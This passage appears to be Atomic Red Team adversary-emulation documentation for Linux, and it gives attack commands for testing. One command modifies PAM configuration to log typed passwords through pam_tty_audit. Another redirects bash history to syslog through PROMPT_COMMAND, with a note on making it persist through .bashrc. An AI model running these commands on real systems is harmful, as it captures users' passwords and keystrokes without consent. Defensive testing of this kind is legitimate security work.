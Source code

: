 
```sh
if sudo test -f /etc/pam.d/password-auth; then sudo cp /etc/pam.d/password-auth /tmp/password-auth.bk; fi; if sudo test -f /etc/pam.d/system-auth; then sudo cp /etc/pam.d/system-auth /tmp/system-auth.bk; fi; sudo touch /tmp/password-auth.bk sudo touch /tmp/system-auth.bk sudo echo "session    required    pam_tty_audit.so enable=* log_password" >> /etc/pam.d/password-auth sudo echo "session    required    pam_tty_audit.so enable=* log_password" >> /etc/pam.d/system-auth
```

#### Cleanup Commands:
```sh
sudo cp -f /tmp/password-auth.bk /etc/pam.d/password-auth
sudo cp -f /tmp/system-auth.bk /etc/pam.d/system-auth
```



#### Dependencies:  Run with `sh`!
##### Description: Checking if pam_tty_audit.so is installed
##### Check Prereq Commands:
```sh
test -f '/usr/lib/pam/pam_tty_audit.so -o  /usr/lib64/security/pam_tty_audit.so'
```
##### Get Prereq Commands:
```sh
echo "Sorry, you must install module pam_tty_audit.so and recompile, for this test to work"
```




<br/>
<br/>

## Atomic Test #3 - Logging bash history to syslog
There are several variables that can be set to control the appearance of the bash command prompt: PS1, PS2, PS3, PS4 and PROMPT_COMMAND. The contents of these variables are executed as if they had been typed on the command line. The PROMPT_COMMAND variable "if set" will be executed before the PS1 variable and can be configured to write the latest "bash history" entries to the syslog.

To gain persistence the command could be added to the users .bashrc or .bash_aliases or the systems default .bashrc in /etc/skel/

**Supported Platforms:** Linux


**auto_generated_guid:** 0e59d59d-3265-4d35-bebd-bf5c1ec40db5






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
PROMPT_COMMAND='history -a >(tee -a ~/.bash_history |logger -t "$USER[$$] $SSH_CONNECTION ")'
echo "\$PROMPT_COMMAND=$PROMPT_COMMAND"
tail /var/log/syslog
```
